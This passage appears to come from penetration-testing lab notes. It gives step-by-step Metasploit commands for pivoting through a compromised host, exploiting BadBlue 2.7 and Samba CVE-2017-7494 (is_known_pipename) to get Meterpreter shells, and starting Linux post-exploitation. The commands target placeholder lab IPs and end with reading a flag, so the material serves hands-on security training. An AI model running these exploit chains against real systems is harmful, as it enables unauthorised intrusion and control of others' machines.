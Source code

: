 ```shell
# VICTIM 2
search portscan
use auxiliary/scanner/portscan/tcp
set RHOSTS <ip_victim_2> # Victim 2 was provided
set PORTS 1-100
exploit

# We have discovered port 80 on the pivot machine. Now, we will forward the remote port 80 to local port 1234 and grab the banner using Nmap

sessions -i 1
portfwd add -l 1234 -p 80 -r <ip_victim_2>
portfwd list

# We have forwarded the port, now use Nmap to find the running application name and version.
db_nmap -sS -sV -p 1234 localhost
# We will search the exploit module for badblue 2.7 using searchsploit.
use exploit/windows/http/badblue_passthru
set PAYLOAD windows/meterpreter/bind_tcp
set RHOSTS <ip_victim_2>
exploit
# We have successfully exploited the target vulnerable application (badblue) and received a meterpreter shell.

shell
cd /
dir
type flag.txt
```

<br>

## 9. Linux Post Exploitation

### 9.1. Linux Post Exploitation Modules

**Objective**: Utilize various Metasploit post-exploitation modules to gather critical system data, including configurations, network details, environment variables, and user history, while also assessing system protections and executing commands remotely.

```shell
nmap -sS -sV -p- <target_IP>
service postgresql start && msfconsole
workspace -a Linux_PE
# Search for Samba-related exploits
search samba
use exploit/linux/samba/is_known_pipename # Use the known Samba exploit (CVE-2017-7494)
set RHOSTS <target_ip>
show options
check # Check if the target is vulnerable
exploit

background
# List all active sessions
sessions
# Upgrade a shell session to a Meterpreter session (if needed)
session -u 1
# Switch to an active Meterpreter session
sessions
sessions 2

# At this point, we have Meterpreter access to the target
sysinfo # Display system information
getuid # Check current user privileges
```